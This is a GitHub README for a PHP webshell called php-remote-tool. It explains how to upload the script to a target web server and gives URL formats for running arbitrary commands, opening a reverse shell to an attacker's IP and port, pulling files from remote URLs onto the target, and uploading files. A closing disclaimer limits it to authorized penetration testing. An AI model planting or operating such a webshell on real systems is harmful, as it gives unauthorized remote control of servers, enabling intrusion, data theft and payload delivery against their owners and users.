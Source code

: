 # PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

```
http://target.com/path/cmd.php?cmd=[COMMAND]

Replace [COMMAND] with the command you want to execute on the target system.
```
## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

```

http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]

Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. 
Make sure to set up a listener on your system to receive the connection.
```
## Download a file
To download a file from a URL and save it on the target system, use the following URL format:

```

http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]

Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.
```
## Upload a file
To upload a file to the target system, use the following URL format:
```

http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]

Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. 
Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".
```
## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
